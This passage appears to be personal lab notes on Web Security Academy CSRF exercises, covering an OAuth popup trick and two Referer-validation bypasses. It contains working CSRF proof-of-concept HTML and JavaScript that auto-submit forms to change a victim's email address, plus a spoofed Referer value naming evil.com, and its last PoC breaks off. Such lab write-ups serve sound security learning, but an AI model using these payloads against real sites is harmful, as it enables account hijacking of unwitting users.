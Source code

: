 ```
    window.onclick = () => {
        window.open('https://0a4d00580475b6ed803a12e600370062.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
That interaction pops out the OAuth flow into a new window and after the refresh completes the CSRF successfully executes. 

# CSRF where Referer validation depends on header being present
Change the victim's email address
## Observations
- No CSRF in the login function
- Changing the value of referrer header errors the login function out as invalid. So, let's see if it actually depends on it or if it'll accept the login request without one. This might be a very weak CSRF prevention implementation - it does not. Simply delete the header and you're back in business. We do that by adding a meta tag directive. 
```
<html>
<head>
  <meta name="referrer" content="no-referrer">
</head>
<body onload="document.forms[0].submit()">
  <form action="https://0ab100960309be1c80d921d0006d00ca.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@test.com">
  </form>
</body>
</html>
```

# CSRF with broken Referer validation
Change victim's email address.
## Observations
- No CSRF token. 
- Referrer header stripping doesn't work - invalid
- What it turns out to be doing is validating the string exists, not that it is correctly formatted so this works as a valid referrer header:
```
Referer: https://foobaloo.evil.com?0a5400a803393ab8e43be09900a500aa.web-security-academy.net/my-account
```
- What we can do is something similiar to above, set the referrer directive but this time to "unsafe-url" which directs the browser to include the full URL of the page in the referer header (scheme + host + path + query) which isn't typical. Default strict-origin-when-cross-origin policies would normall prevent the path and query. Then, we append the URL as the query to satisfy the referer policy check.
```
<html>
  <head>
  <meta name="referrer" content="unsafe-url">
  </head>
   <!-- CSRF PoC - generated by Burp Suite Professional -->
```